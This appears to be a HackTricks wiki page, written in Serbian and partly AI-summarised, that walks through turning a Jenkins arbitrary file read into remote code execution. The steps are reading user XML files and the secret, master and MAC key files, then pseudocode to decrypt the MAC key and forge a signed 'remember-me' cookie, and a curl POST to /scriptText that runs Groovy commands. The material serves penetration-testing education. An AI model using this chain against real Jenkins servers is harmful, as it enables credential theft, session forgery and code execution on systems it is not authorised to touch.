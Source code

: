 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

U ovom blog postu je moguće pronaći odličan način da se transformiše ranjivost Local File Inclusion u Jenkins-u u RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ovo je AI kreirani sažetak dela posta gde se zloupotrebljava kreacija proizvoljnog kolačića za dobijanje RCE zloupotrebom lokalnog čitanja datoteka dok ne budem imao vremena da napravim svoj sažetak:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" mora biti omogućeno (podrazumevani postavka).
* **Access Levels:** Napadač treba Overall/Read dozvole.
* **Secret Access:** Sposobnost čitanja binarnog i tekstualnog sadržaja iz ključnih datoteka.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Pristupite korisničkoj konfiguraciji i tajnama iz `$JENKINS_HOME/users/*.xml` za svakog korisnika da prikupite:
* **Korisničko ime**
* **Korisničko seme**
* **Vreme**
* **Hash lozinke**

**Secret Key Extraction**

* Izvucite kriptografske ključeve korišćene za potpisivanje kolačića:
* **Tajni ključ:** `$JENKINS_HOME/secret.key`
* **Glavni ključ:** `$JENKINS_HOME/secrets/master.key`
* **MAC ključ datoteka:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Izračunajte vreme isteka tokena:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Dodaje jedan sat trenutnom vremenu
```
{% endcode %}
*   **Kombinujte podatke za token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Dešifrujte MAC ključ datoteka:**

```javascript
key = toAes128Key(masterKey)  // Pretvorite glavni ključ u AES128 format
decrypted = AES.decrypt(macFile, key)  // Dešifrujte .mac datoteku
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Izračunajte HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Izračunajte HMAC koristeći token i MAC ključ
tokenSignature = bytesToHexString(mac)  // Pretvorite MAC u heksadecimalni string
```

**Cookie Encoding**

*   **Generišite konačni kolačić:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 kodirajte podatke kolačića
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Preuzmite CSRF i sesijske tokene:**
* Napravite zahtev ka `/crumbIssuer/api/json` da dobijete `Jenkins-Crumb`.
* Zabeležite `JSESSIONID` iz odgovora, koji će se koristiti zajedno sa kolačićem za zapamti me.

**Command Execution Request**

*   **Pošaljite POST zahtev sa Groovy skriptom:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy skripta može se koristiti za izvršavanje komandi na sistemskom nivou ili drugih operacija unutar Jenkins okruženja.

Primer curl komande prikazan je kako bi se demonstriralo kako napraviti zahtev ka Jenkins-u sa potrebnim zaglavljima i kolačićima za sigurno izvršavanje proizvoljnog koda.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
